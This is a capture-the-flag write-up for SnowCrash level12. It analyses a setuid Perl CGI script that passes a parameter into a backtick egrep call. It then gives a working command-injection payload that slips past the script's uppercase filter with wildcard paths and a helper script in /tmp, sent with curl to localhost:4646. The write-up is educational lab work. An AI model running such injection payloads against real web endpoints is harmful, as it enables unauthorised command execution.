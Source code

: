 # Level12

## Research

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$
```
Study `level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

# A Perl subroutine or function is a group of statements that together performs a task. 
sub t {
  # y 
  $nn = $_[1];
  # x 
  $xx = $_[0];
# The operator =~ associates the string with the regex match and produces a 
# true value if the regex matched, or false if the regex did not match
# The tr operator in Perl translates all characters of 
# SearchList into the corresponding characters of ReplacementList.
# Syntax: tr/SearchList/ReplacementList/
# Do uppercase on x !
  $xx =~ tr/a-z/A-Z/;
# Substitution Operator or ‘s’ operator in Perl is used to substitute 
# a text of the string with some pattern specified by the user.
# Syntax: s/text/pattern
# \s Do a global search for whitespace characters in a string
# .* just means "0 or more of any character"
# remove all whitespaces !
  $xx =~ s/\s.*//;
# Variables of Array Datatype are preceded by an “at” (@) sign.
# egrep command searches for a text pattern, using extended regular expressions 
# standard error (stderr), to where programs can send their error messages.
# Standard output (stdout) can be screen or file depending on redirection
# 2>&1 redirect stderr to whatever value is set to stdout
# output (array) saves what is return on the stdout by the egrep command
# The threat must be here as all others line seems safe
# `` is for running command !
# grep " " run command inside !
# however getflag will become GETFLAG and won't work...
# ^ to find character missing in the string
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
# $_ = default variable in case no parameter is explicitly used
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

What we can understand:
- `level12.pl` uses `CGI` on `localhost:4646`
- It seems to take 2 arguments
- Argument x will be put in uppercase and will be executed thanks to the \`\` quotes 
- Argument y seems to serve no purpose for us

We saw in a previous level that we can pass parameters to CGI. So let's try to pass `getflag`.

Problem: if we pass just `getflag`, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. </br>
Maybe we can run a script instead of a command and using wildcards will prevent the regex to turn `/tmp/` into `/TMP/` wich doesn't exist.

```bash
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```bash
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

This does not work, it launch getflag without the appropriate rights.

1h30 later with lot of different useless tries...
It was not the good quotes, and weird to do it like this, it is cleaner to do the > part into the script.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

#@ Solution

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag

touch /tmp/flag
chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```
Gives us the flag.
